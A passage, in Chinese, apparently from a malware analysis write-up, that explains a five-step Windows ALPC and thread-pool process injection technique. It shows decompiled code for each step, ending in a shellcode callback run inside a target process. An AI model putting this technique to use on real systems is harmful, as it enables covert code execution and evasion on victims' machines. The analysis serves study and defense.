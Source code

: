 

简单分析，其实现注入大致使用了5步：

1、利用NtAlpcCreatePort创建ALPC端口对象，主要用于TpAllocAlpcCompletion创建TP_ALPC结构体，注意第三个参数是我们准备的回调参数shellcode；

```c++
result = ((__int64 (__fastcall *)(__int64 *, _QWORD, _QWORD))NtAlpcCreatePort)(&v35, 0i64, 0i64);
  if ( (int)result >= 0 )
  {
    lpBuffer = 0i64;
    result = ((__int64 (__fastcall *)(LPCVOID *, __int64, __int64, _QWORD, _QWORD))TpAllocAlpcCompletion)(
               &lpBuffer,
               v35,
               qword_1800FFBB8,
               0i64,
               0i64);
```

2、再次调用NtAlpcCreatePort，创建真正的ALPC端口对象。

```
 result = ((__int64 (__fastcall *)(__int64 *, int *, int *))NtAlpcCreatePort)(&v36, &v38, &v47);
```



3、调用writeProcessMemory，远程将上面创建的（TpAllocAlpcCompletion）TP_ALPC结构写入到目标进程。

```c++
WriteProcessMemory(hProcess, v13, lpBuffer, 0x128ui64, 0i64);

```



4、通过NtAlpcSetInformation将TP_ALPC结构关联到目标进程中的 IO 完成端口，等待触发执行。

```c++
((void (__fastcall *)(__int64, __int64, __int64 *, __int64))NtAlpcSetInformation)(v36, 2i64, v37, 16i64);
```



5、通过NtAlpcConnectPort构造客户端指定消息，连接ALPC端口，从而触发回调（shellcode）。

```c++
result = ((__int64 (__fastcall *)(char *, int *, __int128 *, int *, int, _QWORD, int *, __int64 *, _QWORD, _QWORD, __int64 *))NtAlpcConnectPort)(
                   v44,
                   &v33,
                   v55,
                   &v47,
                   0x20000,
                   0i64,
                   &v56,
                   &v46,
                   0i64,
                   0i64,
                   &v45);
      }
```
